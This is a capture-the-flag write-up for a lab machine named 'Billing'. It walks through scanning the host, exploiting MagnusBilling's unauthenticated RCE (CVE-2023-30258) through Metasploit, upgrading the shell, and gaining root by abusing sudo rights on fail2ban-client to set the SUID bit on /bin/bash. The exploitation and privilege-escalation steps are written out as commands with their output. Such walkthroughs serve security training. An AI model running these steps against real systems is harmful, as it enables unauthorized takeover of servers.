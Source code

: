 theme: jekyll-theme-minimal
# Billing

Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.

nmap -sC -sV 10.10.45.158

![alt text](image.png)

After a short search, we see that it seems like an open-source VoIP billing and management system for managing SIP trunks, VoIP calls, and customer billing. It provides tools for call routing, monitoring, and invoicing.
![alt text](image-1.png)
This has an unauthenticated remote command execution vulnerability CVE-2023-30258, which is available as a manual exploit but is also present in the Metasploit framework.
Let's call it from Metasploit, it's much easier
    ![alt text](image-2.png)
 #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                          

   Don't forget to Set the RHOSTS and LHOST
    ![alt text](image-3.png)
    We are in, let's go more in depth
    ![alt text](image-4.png)
    i wanted to work with the bash, not shell from msfconsole 
    ![alt text](image-5.png)
    Make interactive with python -> python3 -c 'import pty; pty.spawn("/bin/bash")'
    ![alt text](image-6.png)
    User.txt flag 
    ![alt text](image-7.png)
asterisk@ip-10-10-45-158:/home/magnus$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-45-158:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-45-158:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
There you can find an approach to customize a config in the config directory and place code in it that is to be executed with root permissions. Unfortunately, we only have read-only access to the directory...

cat /etc/fail2ban
![alt text](image-8.png)
fail2ban-client is a command-line interface that allows us to interact with, configure, and control the fail2ban-server. To give a brief explanation, fail2ban is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, fail2ban-server is running as root, as expected.
![alt text](image-9.png)
Jails are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

asterisk@ip-10-10-45-158:/etc/fail2ban$  /usr/bin/fail2ban-client set asterisk-manager
<ban$  /usr/bin/fail2ban-client set asterisk-manager
2025-08-30 07:51:34,904 fail2ban                [50777]: ERROR   Permission denied to socket: /var/run/fail2ban/fail2ban.sock, (you must be root)
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager addaction evil
<fail2ban-client set asterisk-manager addaction evil
evil
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager action evil actionban "chmod +s /bin/bash"
<-manager action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager banip 1.2.3.4
</fail2ban-client set asterisk-manager banip 1.2.3.4
1
asterisk@ip-10-10-45-158:/etc/fail2ban$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ /bin/bash -p 
/bin/bash -p 
bash-5.2# whoami
whoami
root
bash-5.2# 
![alt text](image-10.png)
